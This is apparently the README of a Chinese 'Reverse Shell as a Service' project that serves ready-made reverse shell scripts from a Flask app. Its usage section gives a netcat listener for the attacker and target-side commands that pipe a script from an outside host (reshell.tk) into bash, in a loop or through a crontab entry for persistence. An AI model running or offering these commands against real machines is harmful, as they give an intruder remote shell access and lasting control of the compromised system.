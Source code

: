 # ReShellAAS
Reverse Shell as a Service
反弹shell即服务

# 项目简介
无需再去记住复杂的反弹shell命令，通过Reverse Shell as a Service可以方便、快捷的创建反弹shell脚本。

# 安装及服务端启动方法
```
pip3 install flask
python3 app.py
```

# 使用方法
## Attacker Machine
```
nc -l 1337
```

## Target Machine
```
curl http://reshell.tk/ip/1337 | bash
或者
while true; do curl http://reshell.tk/ip/1337 | bash; done
```
配合crontab使用效果更佳
```
crontab -e
* * * * * /usr/bin/curl http://reshell.tk/ip/1337 | bash
```

# 致谢
感谢P师傅以及P师傅的知识星球以及原创这个点子的小机灵鬼。

# TODO
- 适应多场景的反弹shell语法
- etc...

